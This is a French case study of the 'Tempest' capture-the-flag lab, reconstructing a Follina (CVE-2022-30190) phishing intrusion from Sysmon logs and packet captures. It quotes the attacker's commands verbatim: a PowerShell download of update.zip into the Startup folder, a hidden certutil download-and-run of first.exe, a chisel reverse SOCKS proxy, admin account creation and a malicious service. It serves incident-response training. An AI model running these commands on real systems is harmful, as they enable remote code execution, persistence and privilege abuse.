





# 📝 Étude de Cas : Tempest — Investigation d’une Intrusion par Phishing avec Sysmon et PowerShell

Le challenge **Tempest** a simulé une attaque de phishing qui a conduit à une compromission complète du système via un document Microsoft Word malveillant.  
Cette étude de cas se concentre sur **l’analyse des journaux d’événements, la forensique PowerShell et la corrélation des données Sysmon** pour reconstruire les étapes de l’attaquant — depuis le vecteur d’infection initial jusqu’à l’escalade de privilèges et la persistance.

---

## Introduction et Configuration de l’Environnement
J’ai commencé par me connecter à la machine virtuelle Windows d’investigation et examiner les fichiers **Sysmon, Windows et PCAP** situés dans le répertoire *Incident Files*.  
L’enquête visait à déterminer comment l’utilisateur **benimaru** sur l’hôte **TEMPEST** a été compromis après avoir ouvert une pièce jointe suspecte.

Pour préparer l’investigation, j’ai listé tous les fichiers et généré leurs **hash SHA256** avec PowerShell :

powershell
$Files = Get-ChildItem 'C:\Users\user\Desktop\Incident Files'
ForEach($File in $Files) {
    Get-FileHash $File -Algorithm SHA256
}

Fichiers de preuve principaux :
- capture.pcapng
- sysmon.evtx
- windows.evtx

---

## Identification du Document Malveillant
En analysant les journaux Sysmon, j’ai recherché les entrées contenant des références .doc et découvert un document suspect nommé free_magicules.doc.
Une analyse plus approfondie a révélé que ce fichier provenait d’un domaine de phishing :
http://phishteam.xyz/02dcf07/free_magicules.doc
Les journaux Sysmon ont également montré l’utilisateur et l’hôte compromis :
Utilisateur : benimaru
Machine : TEMPEST
Le document malveillant a été ouvert par Microsoft Word (PID 496), ce qui a déclenché une chaîne d’exécution PowerShell et MSDT — un indicateur clé d’exploitation.

---

## Découverte de l’Exploit et Exécution du Payload
Dans les journaux Sysmon, j’ai trouvé une commande PowerShell encodée déclenchée via l’utilitaire MSDT :
- C:\Windows\SysWOW64\msdt.exe ms-msdt:/id PCWDiagnostic /skip force ...
Décodage du payload Base64 :
- $app=[Environment]::GetFolderPath('ApplicationData');
- cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
- iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
- Expand-Archive .\update.zip -DestinationPath .;
- rm update.zip;
Cela confirme que le payload a téléchargé et extrait des fichiers supplémentaires dans le dossier Startup pour assurer la persistance.
L’attaque exploitait la vulnérabilité MSDT (Follina) — CVE-2022-30190, permettant l’exécution de code à distance sans macros.

## Persistance et Payloads Secondaires
Le payload extrait a créé un raccourci malveillant à l’emplacement suivant :
- C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk
À la connexion de l’utilisateur, il exécutait la commande PowerShell suivante pour télécharger et exécuter first.exe:
- "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
Hash SHA256 de first.exe :
- CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
Les événements réseau Sysmon ont montré que first.exe établissait des connexions sortantes vers :
- resolvecyber.xyz:80
indiquant un canal de Command & Control (C2) secondaire.

## Analyse Réseau et Comportement C2
Avec Wireshark, j’ai filtré le trafic HTTP entre l’IP victime (192.168.254.107) et les IP attaquants (167.71.199.191 / 167.71.222.162).
Le trafic capturé montrait des requêtes HTTP encodées en Base64 vers :
- http://phishteam.xyz/02dcf07/index.html
Le binaire utilisait le paramètre q pour envoyer les résultats encodés et récupérer de nouvelles commandes via /9ab62b5? en GET.
Le header User-Agent indiquait que le payload était écrit en Nim.

## Découverte des Identifiants et Proxy SOCKS
À partir du trafic décodé, l’attaquant a exfiltré des identifiants trouvés dans un script PowerShell :
- Utilisateur : TEMPEST\benimaru
- Mot de passe : infernotempest
Il a utilisé ces informations pour explorer les connexions actives et les ports ouverts, notamment le port 5985 (WinRM) pour un accès shell distant.
Pour maintenir l’accès, un proxy SOCKS inversé a été déployé avec ch.exe :
- C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks
Hash du binaire :
- 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451
Outil identifié : chisel

## Escalade de Privilèges et Persistance
Après mouvement latéral, l’attaquant a téléchargé spf.exe (hash 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D) — identifié comme PrintSpoofer.
Il a exploité la SeImpersonatePrivilege pour obtenir les privilèges SYSTEM.
Ensuite, il a exécuté final.exe, qui a reconnecté le C2 sur le port 8080.

## Création de Comptes et Mécanismes de Persistance
Après avoir obtenu les privilèges SYSTEM, deux nouveaux comptes utilisateurs ont été créés :
- shion, shuna
Commandes exécutées :
- net user shion /add
- net user shuna /add
- net localgroup administrators /add shion
Événements pertinents :
- 4720 → Création d’un compte utilisateur
- 4732 → Ajout à un groupe administrateur local
La persistance a été finalisée via un service malveillant :
C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto

## Leçons Apprises
Le challenge Tempest a fourni une expérience complète d’investigation SOC, couvrant :
- Corrélation d’événements avec Sysmon et PowerShell
- Identification de la livraison par phishing et de l’exécution de code à distance (CVE-2022-30190)
- Compréhension de la persistance via raccourcis de démarrage et services malveillants
- Suivi des communications C2 et de l’escalade de privilèges (PrintSpoofer)
- Identification des TTP de l’attaquant selon le MITRE ATT&CK :
- Exécution (T1203) 
- Persistance (T1547)
- Escalade de privilèges (T1068)
- Évasion des défenses (T1070)
- Conclusion : cette enquête a renforcé ma capacité à analyser des intrusions réelles, extraire des IOCs exploitables et construire des workflows structurés de réponse aux incidents en utilisant la télémétrie native Windows et les captures réseau.
